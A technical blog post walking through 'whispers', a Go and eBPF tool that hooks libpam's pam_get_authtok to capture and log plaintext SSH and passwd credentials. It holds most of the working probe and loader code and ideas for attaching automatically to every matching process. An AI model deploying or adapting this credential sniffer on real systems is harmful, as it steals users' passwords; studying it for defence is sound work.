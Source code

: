 +++
title = "Snooping on libpam (openssh auth, passwd) with Golang and eBPF"
date = "2024-02-18T11:40:02Z"
author = "Peter McConnell"
cover = "https://raw.githubusercontent.com/peter-mcconnell/petermcconnell.com/master/assets/whispers.png"
tags = ["linux", "ebpf", "golang", "hacking", "libpam"]
keywords = ["linux", "ebpf", "golang", "hacking", "libpam", "openssh", "passwd"]
description = ""
showFullContent = false
readingTime = true
hideComments = false
color = "" #color from the theme settings
ToC = true
+++

In the vast and complex landscape of software security, safeguarding sensitive information remains a paramount concern for developers and security professionals alike. Among the myriad of challenges, securely managing and protecting credentials during authentication processes stands out as a critical vulnerability point. Traditional security measures often fall short in providing real-time insights into how credentials are handled and potentially exposed within applications, especially those relying on widely used authentication frameworks like PAM (Pluggable Authentication Modules).

Developing the eBPF Program for whispers
----------------------------------------

This section provides an in-depth look at the development of the eBPF program for whispers, a tool designed to monitor and capture credentials handled by libpam. By leveraging eBPF, whispers taps into kernel functions related to authentication processes, offering unprecedented insights into credential management and security vulnerabilities.

### Technical Background

eBPF (Extended Berkeley Packet Filter) is a powerful technology that allows for the dynamic tracing of kernel and user space applications without modifying their source code or requiring prior knowledge of their internal workings. eBPF programs are run by the Linux kernel and can safely access kernel data structures, making them ideal for monitoring, networking, and security applications.
Setting Up the Development Environment

Before diving into eBPF program development, ensure your development environment is properly set up with the following tools and libraries:

    LLVM & Clang: For compiling eBPF programs.
    Linux Kernel Headers: Required for eBPF program compilation to access kernel APIs.
    libbpf: A library for loading and interacting with eBPF programs and maps.
    Go toolchain: For the Go-based components of whispers.

### Developing the eBPF Program

The eBPF program for whispers is designed to attach to the pam_get_authtok function via a uretprobe, capturing credentials as they're processed.
Key Components

    uretprobe.c: Contains the eBPF code that defines the data structures and logic for capturing and processing credential information from pam_get_authtok.

#### BPF code

When trying to look up the structure of pam\_get\_authtok I encountered https://github.com/citronneur/pamspy which is where I lifted most of this code from, so credit to them:

You can see the code in full at https://github.com/peter-mcconnell/whispers/blob/main/bpf/uretprobe.c

```c
...

// we need the pam_handle struct so that we can read the data in our BPF program
typedef struct pam_handle
{
  char *authtok;
  unsigned caller_is;
  void *pam_conversation;
  char *oldauthtok;
  char *prompt;
  char *service_name;
  char *user;
  char *rhost;
  char *ruser;
  char *tty;
  char *xdisplay;
  char *authtok_type;
  void *data;
  void *env;
} pam_handle_t;

// we're using a ringbuffer datastructure to share data back to our userspace program
struct
{
  __uint(type, BPF_MAP_TYPE_RINGBUF);
  __uint(max_entries, 256 * 1024);
} rb SEC(".maps");

...

SEC("uretprobe/pam_get_authtok")
int trace_pam_get_authtok(struct pt_regs *ctx)
{
  if (!PT_REGS_PARM1(ctx))
    return 0;

  pam_handle_t* phandle = (pam_handle_t*)PT_REGS_PARM1(ctx);

  u32 pid = bpf_get_current_pid_tgid() >> 32;

  u64 password_addr = 0;
  bpf_probe_read(&password_addr, sizeof(password_addr), &phandle->authtok);

  u64 username_addr = 0;
  bpf_probe_read(&username_addr, sizeof(username_addr), &phandle->user);

  event_t *e;
  e = bpf_ringbuf_reserve(&rb, sizeof(*e), 0);
  if (e)
  {
    e->pid = pid;
    bpf_probe_read(&e->password, sizeof(e->password), (void *)password_addr);
    bpf_probe_read(&e->username, sizeof(e->username), (void *)username_addr);
    bpf_get_current_comm(&e->comm, sizeof(e->comm));
    bpf_ringbuf_submit(e, 0);
  }
  return 0;
};
```

To handle compiling this code, given we're going to be using Golang we'll define a `go generate` later which will point to a bash script which will handle compilation.

#### Golang code

This section delves into the Go component of whispers, which serves as the user-space counterpart to the eBPF program. It outlines how to leverage Go to load the eBPF program, attach probes, read from eBPF maps, and process the captured credential data for monitoring and analysis purposes.

Ensure your Go environment is set up with the necessary dependencies:

    Go (1.21 or newer): Ensure the Go toolchain is installed.

The Go codebase for whispers is structured as follows:

    cmd/: Contains the CLI interface for whispers.
    pkg/config: Defines configuration structures and parsing logic.
    pkg/whispers: Implements the core functionality for loading and interacting with the eBPF program.

Dependencies are defined in `go.mod` and can be pulled with `go mod tidy`.

This article will only touch on the most interesting parts of the code. The source can be read at https://github.com/peter-mcconnell/whispers/blob/main/pkg/whispers/whispers.go.

We're using cilium ebpf to handle loading our BPF program and interacting with the BPF maps. In the following, `bpfObjects` and `loadBpfObjects` are defined in the auto-generated file `bpf_x86_bpfel.go`:

```golang
func Listen(ctx context.Context, cfg *config.Config) error {
    objs := bpfObjects{}
    if err := loadBpfObjects(&objs, nil); err != nil {
        return err
    }
    defer objs.Close()

    ...
}
```

The above snippet demonstrates loading the eBPF program and ensuring it is correctly cleaned up upon termination.

whispers attaches uretprobes to target functions (e.g., pam\_get\_authtok) also using the cilium/ebpf library:

```golang
ex, err := link.OpenExecutable(cfg.BinPath)
if err != nil {
    return err
}
up, err := ex.Uretprobe(cfg.Symbol, objs.TracePamGetAuthtok, nil)
if err != nil {
    return err
}
defer up.Close()
...
```

The Go code uses a ring buffer to read events captured by the eBPF program:

```golang
rb, err := ringbuf.NewReader(objs.Rb)
if err != nil {
    log.Printf("failed to open ring buffer reader: %v", err)
}
defer rb.Close()

go func() {
    for {
        record, err := rb.Read()
        ...
        event := parseEventData(record.RawSample)
        ...
    }
}()
```

After reading events from the ring buffer, whispers processes and logs the captured credentials:

```golang
log.Printf("Event: PID: %d, Comm: %s, Username: %s, Password: %s",
    event.Pid,
    byteArrayToString(event.Comm[:]),
    byteArrayToString(event.Username[:]),
    byteArrayToString(event.Password[:]))
```

Seeing it in action
-------------------

Included with the repository is a Dockerfile that not only builds `whisper` but also contains an sshd server ready to go, so that you can play with it immediately. The following is a demonstration of that:

[![asciicast](https://asciinema.org/a/641250.png)](https://asciinema.org/a/641250)

Improvements
------------

This project was designed to be very simple - specifically I'm aiming to give an overview of it during a tech talk. As such, it isn't intended to be feature-complete. Namely this project results in a binary whereby you provide the `-binPath=/path/to/libpam`, however we can automate this attachment with more eBPF.

This project has used uprobes to trace arguments for a given user-space application. However we can automate the auto-attachment of these probes using kprobes. With kprobes we could filter `execve` and `fork` for `comm`s that we deem to be interesting (e.g. `sshd`, `passwd`) and when we get a match, we could run `ldd` against the `/proc/<pid>/exe` to see if we can see `libpam` and attach that way. There are some complexities to consider here such as the namespace for a given process may be different (e.g. for containers). We'd likely also want to look at existing processes and attach probes to those also. However, these are all trivial problems to solve. The result being that you could run a single `whispers` with no targets, that would automatically attach our uprobes whenever a suitable process was started.
